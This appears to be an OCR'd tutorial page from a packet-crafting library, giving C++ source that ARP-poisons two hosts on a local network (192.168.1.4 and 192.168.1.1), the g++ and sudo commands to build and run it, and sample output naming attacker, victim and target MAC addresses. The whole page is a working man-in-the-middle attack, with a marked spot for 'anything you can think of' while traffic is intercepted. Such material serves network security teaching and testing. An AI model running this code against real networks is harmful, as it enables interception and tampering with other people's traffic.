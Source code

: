 ```
	string hostA = "192.168.1.4";
	/* HOst B IP address */
	string hostB = "192.168.1.1";

	/*
	 * Begin the ARP poisoning (Sending false ARP replies)
	 * hostB and hostA could be wildcards like:
	 * - 192.168.1.*
	 * - 192.168.1.3-19,192.168.1.200
	 * - etc...
	 */
	ARPContext* context = ARPSpoofingReply(hostB,hostA,iface);
	/*
	 * The function returns immediately, it spawns a thread "on the background"
	 * that does the ARP poisoning
	 */

	/* You can print the information of the context */
	PrintARPContext(*context);

	/* ----------------------------------------------------------------------- */

	/*
	 * Here you can do anything you can think of while the ARP poisoning occurs
	 */
         sleep(10);

	/* ----------------------------------------------------------------------- */

	/*
	 * Finally, clean the context... This will try to fix the ARP tables sending
	 * ARP Replies
	 */
	CleanARPContext(context);

	return 0;
}
```

Compile and run the program:

```
g++ arppoison.cpp -o arppoison
sudo ./arppoison
```

You should see in your screen something like this:

```
[@] --- ARP Spoofer 
[@] Attacker's MAC address = 1c:65:9d:0f:*:*
[@] --- Victim network 
 IP : 192.168.1.4 ; MAC : 08:00:27:28:*:*
[@] --- Target network 
 IP : 192.168.1.1 ; MAC : 00:02:cf:7b:*:*
```
